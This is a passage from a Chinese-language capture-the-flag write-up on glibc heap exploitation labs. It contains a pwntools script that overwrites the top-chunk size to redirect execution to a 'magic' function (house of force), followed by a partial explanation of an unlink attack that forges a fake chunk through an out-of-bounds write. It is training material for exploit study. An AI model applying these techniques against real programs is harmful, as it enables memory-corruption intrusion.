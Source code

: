 ```python

def remove(index):
    r.recvuntil('Your choice:')
    r.sendline('4')
    r.recvuntil('lease enter the index of item:')
    r.sendline(str(index))

def my_exit():
    r.recvuntil('Your choice:')
    r.sendline('5')


add(0x20, 'aaaa') # 0
p = 'a'*0x20 + p64(0) + p64(0xffffffffffffffff)
change(0, 0x30, p)
add(-96, 'bbbb')
add(0x10, 'a'*8+p64(elf.symbols['magic']))
my_exit()


r.interactive()
```

# lab11-2

> 考点： unlink

add两次(要free的chunk 大小要超过fastbin大小，因为fastbin的P位一定是1，不会触发unlink。我下面有些图两个chunk都是0x40大小的，所有没有触发unlink，图也懒得改了，只要把0x40改成0x90即可)

![image-20220917132803674](/assets/img/2022/image-20220917132803674.png)

触发越界写，达成unlink利用的条件，并触发unlink

因为itemlist中的指针指向的是chunk data部分，所以在越界写的时候要伪造出整个chunk，而不单单是fd和bk。

如果只伪造fd和bk，结果是这样的

![image-20220917123137686](/assets/img/2022/image-20220917123137686.png)

`FD=P->fd=0x602090`

`BK=P->bk=0x602098`

unlink时check: `FD->bk = *(0x602090+0x18) = *(0x6020a8) = 0x603030  ` 并不等于P(0x603020)



所以越界写思路如图：

![image-20220917125257647](/assets/img/2022/image-20220917125257647.png)

free并触发unlink：

![image-20220917130404381](/assets/img/2022/image-20220917130404381.png)
